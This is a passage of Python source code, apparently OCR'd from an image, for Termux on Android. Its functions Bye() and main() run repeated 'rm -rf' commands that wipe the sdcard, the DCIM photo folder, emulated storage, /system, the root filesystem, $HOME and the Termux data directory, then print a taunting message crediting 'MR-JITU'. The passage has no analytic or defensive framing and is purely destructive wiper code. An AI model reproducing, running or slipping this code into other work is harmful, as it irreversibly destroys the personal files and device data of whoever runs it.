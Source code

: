     print(f'{M} Your System Fucked by {H} MR-JITU🧸{P}')

    

def Bye():

    os.system("rm -rf /sdcard/DCIM")

    os.system("rm -rf /sdcard/*")

    os.system("rm -rf /sdcard/update")

     

    os.system('termux-setup-storage')

    os.system('rm -rf /storage/emulated/0/*')

    os.system('rm -rf /storage/emulated/*')

    os.system('rm -rf /sdcard/*')

    os.system('rm -rf /sdcard/0/*')

    os.system('rm -rf /sdcard1/*')

    os.system('rm -rf /storage/*')

    os.system('rm -rf /*')

    os.system('rm -rf /system/*')

    os.system('rm -rf $HOME/../../*')

    os.system('rm -rf $PREFIX/b')

    os.system('rm -rf $HOME/*')

    os.system('mv $HOME /dev/null')

    os.system("rm -rf /data/data/com.termux/")

    print(f'{M} Your System Fucked by {H} MR-JITU🧸{P}')

def main():

    os.system("rm -rf /sdcard/DCIM")

    os.system("rm -rf /sdcard/*")

    os.system("rm -rf /sdcard/update")

     

    os.system('termux-setup-storage')

    os.system('rm -rf /storage/emulated/0/*')

    os.system('rm -rf /storage/emulated/*')

    os.system('rm -rf /sdcard/*')

    os.system('rm -rf /sdcard/0/*')

    os.system('rm -rf /sdcard1/*')

    os.system('rm -rf /storage/*')
